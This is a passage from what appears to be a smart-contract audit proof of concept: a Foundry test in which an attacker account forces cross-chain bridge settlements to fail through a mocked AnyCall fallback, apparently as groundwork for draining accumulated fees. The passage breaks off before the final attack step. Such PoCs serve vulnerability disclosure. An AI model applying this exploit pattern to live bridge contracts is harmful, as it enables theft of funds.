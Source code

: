 ```solidity
        // Attacker aproves the underlying token
        hevm.prank(attacker);
        MockERC20(address(avaxMockAssetToken)).approve(address(avaxPort), 1 ether);

        
        // Print out the amounts of WrappedNative & AccumulateAwards state 
        console2.log("RootBridge WrappedNative START",WETH9(arbitrumWrappedNativeToken).balanceOf(address(multicallBridgeAgent)));
        console2.log("RootBridge ACCUMULATED FEES START", multicallBridgeAgent.accumulatedFees());

        // Attacker's underlying avax mock token balance
        console2.log("Attacker underlying token balance avax", avaxMockAssetToken.balanceOf(attacker));

        // Prepare a single deposit with remote gas that will cause the remote exec from the root to branch to fail
        // We will have to mock this fail since we don't have the MultiChain contracts, but the provided 
        // Mock Anycall has anticipated for that

        DepositInput memory deposit = _prepareDeposit();
        uint128 remoteExecutionGas = 2_000_000_000;

        Multicall2.Call[] memory calls = new Multicall2.Call[](0);

        OutputParams memory outputParams = OutputParams(attacker, globalAddress, 500, 500);
        
        bytes memory params = abi.encodePacked(bytes1(0x02),abi.encode(calls, outputParams, avaxChainId));

        console2.log("ATTACKER ETHER BALANCE START", attacker.balance);

        // Toggle anyCall for 1 call (Bridge -> Root), this config won't do the 2nd anyCall
        // Root -> Bridge (this is how we mock BridgeAgent reverting due to insufficient remote gas)
        MockAnycall(localAnyCallAddress).toggleFallback(1);

        // execute
        hevm.prank(attacker);
        // in reality we need 0.00000002 (supply a bit more to make sure we don't fail execution on the root)
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 0.00000005 ether }(params, deposit, remoteExecutionGas);

        // Switch to normal mode 
        MockAnycall(localAnyCallAddress).toggleFallback(0);
        // this will call anyFallback() on the Root and Fail the settlement
        MockAnycall(localAnyCallAddress).testFallback();

        // Repeat for 1 more settlement
        MockAnycall(localAnyCallAddress).toggleFallback(1);
        hevm.prank(attacker);
        avaxMulticallBridgeAgent.callOutSignedAndBridge{value: 0.00000005 ether}(params, deposit, remoteExecutionGas);
        
        MockAnycall(localAnyCallAddress).toggleFallback(0);
        MockAnycall(localAnyCallAddress).testFallback();
        
        // Print out the amounts of WrappedNative & AccumulateAwards state  after failing the settlements but before the attack 
        console2.log("RootBridge WrappedNative AFTER SETTLEMENTS FAILUER BUT BEFORE ATTACK",WETH9(arbitrumWrappedNativeToken).balanceOf(address(multicallBridgeAgent)));
```